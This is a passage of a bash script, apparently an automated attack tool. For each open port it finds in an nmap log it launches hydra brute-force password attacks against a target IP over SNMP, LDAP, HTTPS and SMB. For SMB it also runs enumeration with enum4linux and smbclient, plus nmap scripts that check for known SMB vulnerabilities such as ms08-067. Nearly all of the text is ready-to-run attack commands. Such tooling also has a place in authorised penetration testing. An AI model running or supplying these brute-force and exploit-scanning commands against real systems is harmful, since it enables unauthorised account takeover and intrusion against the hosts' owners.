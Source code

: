       hydra -P $snmp snmp -S 162 -e ns -o Output/${targetIP}/snmp_${targetIP}.txt -I -V -t $thread
      Finished_Brute "${targetIP}"
    else
      echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 162(SNMP) is not open. Skipping to next port..."
    fi
  }
  BruteSNMP

  #  Port 389 - (LDAP)
  BruteLDAP(){
    if grep -q 389/tcp nmap.log; then
      echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 389(LDAP) is open. Starting bruteforce...\n"
      sleep 1
      hydra -L $windows_u -P $pass ${targetIP} service ldap2 -S 389 -e ns -o Output/${targetIP}/ldap2_${targetIP}.txt -I -V -t $thread
      hydra -L $windows_u -P $pass ${targetIP} service ldap3 -S 389 -e ns -o Output/${targetIP}/ldap3_${targetIP}.txt -I -V -t $thread
      Finished_Brute "${targetIP}"
    else
      echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 389(LDAP) is not open. Skipping to next port..."
    fi

  }
  BruteLDAP

  #  Port 443 - (HTTPS)
  BruteHTTPS(){
    if grep -q 443/tcp nmap.log; then
      echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 443(HTTPS) is open. Starting bruteforce...\n"
      sleep 1
      sslscan ${targetIP}:443
      hydra -l $user -P $pass ${targetIP} service https-get -s 443 -o Output/${targetIP}/https-get_${targetIP}.txt -I -V -m / -t $thread
      Finished_Brute "${targetIP}"
    else
      echo "        ${BBlue}|──[${BRed} ❌ ${BBlue}]──╼ ${BRed} Port 443(HTTPS) is not open. Skipping to next port..."
    fi
  }
  BruteHTTPS

  #  Port 445 - (SMB)
  BruteSMB445(){
    if grep -q 445/tcp nmap.log; then
      echo "        ${BBlue}|──[${BRed} 🎯 ${BBlue}]──╼ ${BGreen} Port 445(SMB) is open. Starting bruteforce...\n"
      sleep 1
      enum4linux -a ${targetIP}
      smbclient -L ${targetIP}
      nmap --script=smb-enum-shares.nse,smb-ls.nse,smb-enum-users.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-security-mode.nse,smbv2-enabled.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse,smbv2-enabled.nse ${targetIP} -p 445
      hydra -C $windows_up ${targetIP} smb -S 445 -e ns -o Output/${targetIP}/smb_445_${targetIP}.txt -I -V -t $thread
      hydra -L $windows_u -P $pass ${targetIP} smb -S 445 -e ns -o Output/${targetIP}/smb_445_2_${targetIP}.txt -I -V -t $thread